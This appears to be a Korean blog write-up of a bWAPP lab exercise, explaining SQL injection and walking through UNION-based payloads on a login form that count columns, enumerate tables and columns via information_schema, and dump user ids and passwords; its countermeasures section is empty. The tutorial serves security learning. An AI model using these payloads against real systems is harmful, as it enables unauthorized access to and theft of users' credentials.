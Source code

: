 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - (Login Form/Hero)"

---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Object

개인정보를 탈취해보자

![image-20220316195556024](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195556024.png)

![image-20220316195630270](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195630270.png)

- 항상 참인 조건으로 삽입 공격
- `"select column from table where id=' " &id " ' " and  "password=' " &password " ' "` 으로 유추가능

<br>

### 컬럼 갯수

![image-20220316195916126](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316195916126.png)

- ' union select all 1 # ~ 'union select all 1,2,3,4 # 까지 해본 결과
- 컬럼 갯수는 4개
- 그 중 쓰이는 컬럼은 2번과 4번

<br>

### DB

![image-20220316200102096](image-20220316200102096.png)

`' union select all 1,database(),3,4 #`

- DB는 BWAPP

<br>

### 테이블 조회

![image-20220316200400317](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200400317.png)

`' union select all 1,table_name,3,4 from information_schema.tables where table_schema='bWAPP' limit 3,1#`

- limit 활용해서 0번부터 쭉 조회 3번이 users 테이블

<br>

### 컬럼 조회

![image-20220316200507757](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200507757.png)

`' union select all 1,column_name,3,4 from information_schema.columns where table_name='users'#`

- 이 또한 limit활용해서 컬럼들 조회

<br>

### 컬럼 속성

![image-20220316200629848](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220316200629848.png)

`' union select all 1,id,3,password from users#`

- 성공적으로 개인취약점 정보 확인 가능

<br>

<br>

## 대응방안

